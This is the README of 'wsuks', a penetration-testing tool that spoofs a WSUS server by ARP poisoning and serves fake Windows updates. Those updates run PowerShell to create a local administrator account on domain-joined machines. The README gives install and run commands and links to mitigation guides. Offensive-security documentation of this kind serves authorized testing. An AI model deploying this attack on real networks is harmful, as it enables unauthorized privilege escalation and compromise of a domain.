 ![Supported Python versions](https://img.shields.io/badge/python-3.10+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/al3x_n3ff?label=al3x_n3ff&style=social)](https://twitter.com/intent/follow?screen_name=al3x_n3ff)
# wsuks
_Weaponizing the WSUS Attack_

Becoming local Admin on a domain joined Windows Machine is usually the first step to obtain domain admin privileges in a pentest. To utilize the WSUS attack automatically this Tool spoofs the ip address of the WSUS-Server inside the network via arp and serves its own Windows Update as soon as the client requests them.
Per Default a Windows Client requests Updates every 24h. On request wsuks provides its own "Updates" executing Powershell commands on the target to create an local Admin and add it to the local Administrators group.

The served executable (Default: PsExec64.exe) as well as the executed command can be changed as needed.

## Installation
Using pipx:
```
sudo apt install python3-pipx git
sudo pipx ensurepath
sudo pipx install wsuks
```

Using poetry:
```
sudo apt install python3-poetry
git clone https://github.com/NeffIsBack/wsuks
cd wsuks
sudo poetry install
```

## Usage
❗wsuks must be run as root❗

With pipx:
```
sudo -i
wsuks
wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20
```

With poetry:
```
sudo poetry run wsuks
sudo poetry run wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20
```

## About & Mitigation
In the [PyWSUS](https://github.com/GoSecure/pywsus) Repository from GoSecure you can find a great documentation how to you could detect and mitigate this attack.
They also wrote a great Guide demonstrating how this attack works in detail [here](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/).

This Tool is based on the following projects:
- https://github.com/GoSecure/pywsus
- https://github.com/GoSecure/wsuspect-proxy

